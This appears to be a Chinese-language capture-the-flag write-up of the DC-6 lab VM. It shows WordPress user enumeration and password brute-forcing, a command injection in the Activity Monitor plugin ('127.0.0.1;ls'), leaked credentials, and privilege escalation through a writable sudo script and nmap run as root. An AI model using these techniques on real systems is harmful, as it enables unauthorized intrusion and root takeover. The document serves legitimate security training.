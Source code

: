 靶机描述:
```
DESCRIPTION
DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
```

**环境配置**
一样的 ova导入 启动后改NAT


**信息收集**
靶机ip:192.168.136.157

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

还是要配置一下DNS解析的HOST
然后就能访问网页了
![img](DC-6/images/image.png)

又是WordPress
扫一扫用户
`wpscan --url http://wordy --enumerate u`

得到 admin sarah graham mark jens
cewl生成个字典 爆一下看行不行
`wpscan --url http://wordy -U user.txt -P passwd.txt`
没爆出来...

搜了搜 WP5.1.1版本 有CSRF->RCE的漏洞 但也要在评论功能 至少要先登陆
nm 结果官网有个CLUE
```
CLUE
OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```

好好好 用rockyou字典呗
按照提示来爆破即可
![img](DC-6/images/image-1.png)

emmm

mark helpdesk01

这个账密ssh登不了 还得进一步信息收集

还能怎么打? plugin的洞都利用不了
emmm 貌似看漏了个点
`Activity Monitor`下有个`Premium Pack`

对比DC2发现确实这里多了一个"plugin"
搜一搜发现就是最出名的`Plainview Activity Monitor`的RCE漏洞
其实不用搜也知道
![img](DC-6/images/image-2.png)

最经典的ip RCE了
`127.0.0.1;ls` 然后点lookup即可RCE

尝试反弹shell
发现框里面的字数有限制 前端雕虫小技 bp抓包重发即可
![img](DC-6/images/image-3.png)

python起一个交互shell `python -c 'import pty;pty.spawn("/bin/bash")'`

进一步信息收集
```
www-data@dc-6:/var/www/html/wp-admin$ cat /home/mark/stuff/things*
cat /home/mark/stuff/things*
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement

```


graham  GSo7isUM1D4

su切换graham
```
graham@dc-6:/var/www/html/wp-admin$ sudo -l
sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

要用/home/jens/backups.sh提权

```
graham@dc-6:/var/www/html/wp-admin$ cat /home/jens/backups.sh
cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html

```

先用ssh登录graham
利用上面backup.sh可以得到jens的权限
直接 将命令写入backup.sh 然后sudo -u jens运行
`echo "/bin/bash" >> /home/jens/backups.sh`
`sudo -u jens /home/jens/backups.sh`

就能切换到jens用户
```
jens@dc-6:/$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```

然后`nmap`提权
直接交互shell得不到 那就写入脚本nmap执行

![img](DC-6/images/image-4.png)

```
# cat: /root: Is a directory
# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.

```


---
---

嘛 又积累了一点姿势
继续练习 冲!